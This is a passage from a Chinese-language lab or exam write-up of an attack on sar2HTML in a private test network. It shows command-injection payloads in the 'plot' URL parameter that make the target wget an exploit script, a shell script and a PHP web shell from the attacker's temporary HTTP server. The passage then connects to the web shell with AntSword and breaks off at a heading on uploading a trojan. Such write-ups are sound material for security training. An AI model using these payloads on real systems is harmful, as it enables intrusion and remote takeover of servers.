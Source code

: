 ![image-20220401105747805](第3次 考试测试.assets/image-20220401105747805.png)

在 home/xxb1 目录下开启临时服务器

```
python2 -m SimpleHTTPServer 1234 
```

然后构造payload，引导目标机下载

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/49344.py
```

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/shell.py
```

![image-20220401112441540](第3次 考试测试.assets/image-20220401112441540.png)

返回kali查看

目标机已经下载该文件

![image-20220401111332317](第3次 考试测试.assets/image-20220401111332317.png)

## 2.3 蚁剑连接

在 **home/xxb1** 目录下开启临时服务器

```
python2 -m SimpleHTTPServer 1234 
```

然后构造payload，引导目标机下载

首先让目标机下载我们的php文件

php文件也在目录 **home/xxb1** 中

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/xxb.php
```

![image-20220401113619261](第3次 考试测试.assets/image-20220401113619261.png)

然后用蚁剑进行连接

```
http://192.168.81.152/sar2HTML/xxb.php
```

![image-20220401113442163](第3次 考试测试.assets/image-20220401113442163.png)

# 3.getshell

## 3-1 上传木马文件

